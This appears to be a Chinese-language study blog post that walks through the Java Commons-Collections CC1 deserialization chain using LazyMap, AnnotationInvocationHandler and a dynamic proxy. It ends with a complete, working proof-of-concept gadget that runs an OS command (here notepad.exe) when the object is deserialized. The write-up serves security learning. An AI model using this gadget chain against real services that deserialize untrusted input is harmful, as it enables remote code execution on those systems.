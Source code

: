 ```yaml
---
title: Java反序列化-02-CC1链-2
date: 2025-9-25 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


# 初步构造-寻找transform

还是从`transform`出发，这次找的是`LazyMap`类，`LazyMap`类的get方法中有调用`transform`

给`factory`赋值`invokeTransformer`，并且给`key`赋值`Runtime`，就可以命令执行

![image-20250925150603061](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925150603061.png)

`factory`可以通过构造函数来定义，构造函数可以通过`decorate`方法来实现

![image-20250925150625884](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925150625884.png)

- `LazyMap`没有无参构造，有参构造是`protected`类型，所以要用到反射，拿到`LazyMap`类，再去调用下面的方法
- 构造函数有两个参数，一个是`map`类型，一个是`Transformer`类型的`factory`，后面get函数 用到的就是`factory`执行`transform`——`this.factory.transform(key);`
- 所以在使用`decorate方法`进行有参构造时，将`invokeTransformer`赋值给`factory`
- 最后再使用`get`方法传入`Runtime`对象

```java
public class CC2 {
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"});
        invokerTransformer.transform(runtime);

       Class<LazyMap> c = LazyMap.class;
       HashMap<Object,Object> hashMap = new HashMap<>();
       Map decoratemap =  LazyMap.decorate(hashMap,invokerTransformer);
       Method LazyMapget = c.getDeclaredMethod("get",Object.class);
       LazyMapget.setAccessible(true);
       LazyMapget.invoke(decoratemap,runtime);
    }
}
```

# 第二步-寻找get

上面这条链可以成功命令执行，那么接下来就是要找`get`方法

`AnnotationInvocationHandler`下的`invoke`方法中有`get`方法，并且这个类下还有`readObject()`，可以当做入口类

![image-20250925154533123](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925154533123.png)

`get`方法是通过`MemberValues`进行调用的,`MemberValues`是通过构造函数给其赋值

构造函数没有类型就是default类型，要通过反射来调用

![image-20250925164551320](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925164551320.png)

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
     Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
     declaredConstructor.setAccessible(true);
     InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);
```

# 通过proxy动态生成代理类

解释一下上面代码最后一行，这也是我当时看代码时的疑惑：

> proxy动态生成代理类时，最后一个参数要求是`InvocationHandler`类型，有人可能会问为什么不直接用`AnnotationInvocationHandler`，`AnnotationInvocationHandler`就是实现了`InvocationHandler`这个接口，为什么还要强转重新创建一个变量，尝试一下就可以知道，会报错，因为不是public，无法从外部访问

![image-20250925172317510](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925172317510.png)

该类实现了`InvocationHandler`这个接口，是一个动态代理类，想调用`invoke()`方法，只需要调用被代理对象的任意方法

这里需要学习一下动态代理

[12、动态代理详解_哔哩哔哩_bilibili](./https://www.bilibili.com/video/BV1mc411h719/?p=11&spm_id_from=333.1007.top_right_bar_window_history.content.click)

使用`proxy`动态生成一个代理类，调用代理类的任意方法时就会调用`invoke`方法

```
Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
```

而且`invoke`方法中还进行了判断，要绕过判断才能走到`get`方法，不能用`equals\toString\hashCode\annotationType`方法

![image-20250925173222757](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925173222757.png)

我们在CC链1中用到的`ReadObject`方法，其中的`memberValues`调用的`entrySet`方法也可以绕过上面的判断，只需要让`memberValues`成为动态代理类就可以了

还是和上面一样，通过反射给`memberValues`赋值

![image-20250925173454514](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925173454514.png)

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
     Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
     declaredConstructor.setAccessible(true);
     InvocationHandler membervalues = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);
```

最终流程就是：

反序列化时调用`readObject`，然后执行其中的`MemberValues.entryset`，`MemberValues`又是我们动态定义的代理类，就会执行`invoke`方法去执行其中的`get`方法，执行get方法时我们又将`MemberValues`赋值为`LazyMap`通过`decorate`方法进行实例化过的`decorateMap`，最终执行的就是`LazyMap`的`get`方法，`LazyMap`的`get`方法下又执行了`factory.transform`，`factory`我们已经通过`decorate`方法来调用构造函数赋值为`InvokerTransformer`,最终就会执行`InvokerTransformer.transform`,该方法又可以任意命令执行

# 调用链

![image-20250925175604377](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925175604377.png)

# 完整代码

```java
package org.example;

import com.sun.net.httpserver.Filter;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC2 {
    public static void main(String[] args) throws Exception{
       Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
             new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
             new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
             new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"notepad.exe"})
       };
     ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
     HashMap<Object, Object> hashMap = new HashMap<>();
     Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

     Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
     Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
     declaredConstructor.setAccessible(true);
     InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);

     Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
     InvocationHandler membervalues = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);


     serialize(membervalues);
     unserialize("ser.bin");
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(object);
    }
    public static void unserialize(Object object) throws Exception{
        ObjectInputStream ois=new ObjectInputStream(new FileInputStream("test.txt"));
        ois.readObject();
    }
}

```

